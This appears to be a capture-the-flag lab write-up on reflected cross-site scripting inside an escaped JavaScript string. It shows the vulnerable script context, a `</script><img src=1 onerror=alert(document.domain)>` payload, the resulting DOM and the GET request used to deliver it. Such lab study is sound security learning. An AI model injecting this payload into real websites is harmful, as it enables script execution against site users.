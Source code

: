### Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality.  

The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.

_____

Analysis and Exploit:

1. Performed a test search using string TESTSEARCH. The XSS context is within the followin Javascript block of code
```html
<script>
var searchTerms = 'TESTSEARCH';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

2. Inject the following payload
```html
</script><img src=1 onerror=alert(document.domain)>
```

DOM structure

```html
<script>
var searchTerms = '</script><img src=1 onerror=alert(document.domain)>';
document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

This payload works because browsers first parse the HTML structure to identify code blocks and only then perform Javascript parsing to understand and execute embedded scripts.  
The payload closes the script block (```</script>```) leaving it unbroken but since the former closing tag is still present, the browser still performs all the actions.  
The onerror event is triggered because there is no image named "1" among the resources.

_____

Script notes:

2. GET /?search=[```</script><img src=1 onerror=alert(document.domain)>```, URLeconded]

